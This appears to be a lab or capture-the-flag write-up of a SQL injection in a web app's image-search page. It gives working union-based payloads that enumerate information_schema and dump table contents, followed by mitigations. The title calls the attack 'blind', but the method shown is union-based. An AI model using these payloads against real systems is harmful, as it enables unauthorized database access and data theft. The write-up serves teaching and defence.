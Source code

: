 
## 📌 Breach Name: Blind SQL Injection

## Overview
This document describes how to exploit a SQL injection vulnerability found in the image list page of a web application. By leveraging union-based SQL injection, we retrieve database structure details and extract sensitive information from the `list_images` table.
## 📌 Vulnerability Type:
- **CWE-89: SQL Injection**
- **CWE-20: Improper Input Validation**
## Vulnerability Details
* **Type:** SQL Injection
* **Vulnerable Parameter:** `id`
* **Affected URL:** `http://10.11.100.164/?page=searchimg`

## Source of the Vulnerability
The page contains a form to search for images by ID:

```html
<form action="#" method="GET">
  <input type="hidden" name="page" value="listimg">
  <input type="text" name="id"> <br />
  <input type="submit" name="Submit" value="Submit">
</form>
```

A valid search query (e.g., `id=1`) returns:

```
ID: 1
Title: Nature
Comment: Beautiful mountain view
```

Injecting `1 OR 1=1` returns multiple results:

```
ID: 1 OR 1=1
Title: Nature
Comment: Beautiful mountain view

ID: 2
Title: Cityscape
Comment: Downtown at night
```

This confirms the presence of an SQL injection vulnerability.

## Exploitation Steps

### 1. Determining the Number of Columns
Testing different payloads, we discover that two columns are required:

```sql
1 UNION SELECT NULL, NULL--
```

This query succeeds, confirming two columns.

### 2. Retrieving Table Names
Using `information_schema.tables` to list tables:

```sql
1 UNION SELECT table_name, NULL FROM information_schema.tables--
```

We discover a table named:

```
list_images
```

### 3. Retrieving Column Names
To avoid quoting issues, the table name is converted to hexadecimal:

```bash
echo -n "list_images" | xxd -p | awk '{printf "0x%s", $0}'
```

Result:
```
0x6c6973745f696d61676573
```

Fetching column names:

```sql
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
```

Important columns identified:
```
title
comment
```

### 4. Extracting Data from the list_images Table
Extracting titles:

```sql
1 UNION SELECT title, NULL FROM list_images--
```

Extracting comments:

```sql
1 UNION SELECT comment, NULL FROM list_images--
```

Example extracted data:

```
Title: Welcome
Comment: Secret info hidden here
```

## Impact
* **Database Enumeration:** Attackers can enumerate database structure.
* **Data Leakage:** Sensitive data, including internal comments or notes, may be exposed.
* **Potential Further Exploitation:** Extracted data could aid in deeper attacks.

## Mitigation Strategies
1. **Use Parameterized Queries:** Always use prepared statements when handling user input.
2. **Input Validation:** Sanitize and validate all user inputs.
3. **Principle of Least Privilege:** Restrict database user permissions.
4. **Web Application Firewall (WAF):** Deploy a WAF to help detect and block SQL injection attempts.

## Conclusion
The SQL injection vulnerability allowed enumeration of the database and extraction of sensitive data. Implementing proper input sanitization and secure coding practices would have prevented this issue.